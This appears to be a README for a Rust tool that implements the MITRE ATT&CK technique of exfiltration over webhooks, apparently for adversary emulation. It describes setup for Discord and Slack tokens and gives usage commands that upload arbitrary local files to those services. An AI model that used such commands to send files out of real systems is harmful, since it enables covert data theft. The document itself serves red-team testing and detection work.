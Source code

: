 # T1567.004 - Exfiltration Over Web Service: Exfiltration Over Webhook

Implementation of [T1567.004](https://attack.mitre.org/techniques/T1567/004/) - Exfiltration Over Web Service: Exfiltration Over Webhook.

## Features

- Supports Discord webhooks for message and file uploads
- Supports Slack bot integration for message and file uploads

## Prerequisites

- [Rust](https://www.rust-lang.org/tools/install)
- Discord webhook URL if using Discord
- Slack bot user OAuth token and channel ID if using Slack

## Setup

- Update the following constants in `src/main.rs`:
  - `DISCORD_WEBHOOK_URL`: Your Discord webhook URL
  - `SLACK_BOT_TOKEN`: Your Slack bot user OAuth token
  - `SLACK_CHANNEL_ID`: The target Slack channel ID

## Usage

1. Build the binary:

    ```sh
    # For native platform
    make build

    # For Windows cross-compilation
    make windows
    ```

2. Run the tool:

    ```sh
    # Send a message
    ./t1567-004 -m "Test message" -w discord

    # Upload a file
    ./t1567-004 -f /path/to/file -w slack

    # Upload a file with a message
    ./t1567-004 -f /path/to/file -m "File description" -w discord
    ```
